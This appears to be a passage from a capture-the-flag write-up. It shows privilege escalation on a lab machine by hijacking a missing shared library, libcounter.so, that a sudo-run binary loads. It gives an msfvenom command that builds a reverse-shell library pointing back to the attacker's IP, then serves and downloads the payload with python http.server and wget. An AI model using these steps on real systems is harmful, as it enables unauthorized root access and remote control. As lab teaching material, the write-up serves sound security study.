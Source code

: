 ```
openat(AT_FDCWD, "/home/rektsu/.config/libcounter.so", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)
```

the file was missed now create malicious code revshell using name libcounter.so to priv esc and get revshell . Using metasploit to create revshell

`msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.49 LPORT=1337 -f elf-so -o libcounter.so`

So now go this path `/home/rektsu/.config/` and upload your shell have been created by metasploit 


## Your Linux

`python3 -m http.server 80`

## SSH / Revhsell
`wget http://10.10.14.49/libcounter.so`

now run your netcat on your linux terminal and run `sudo /usr/bin/stock`

And will get access root from the system because you added malicious file in libcounter.so file at .config because the binary `/usr/bin/stock` compile with this file libcounter.so and that's why this happened 

![](images/2024-01-15-22-54-59.png)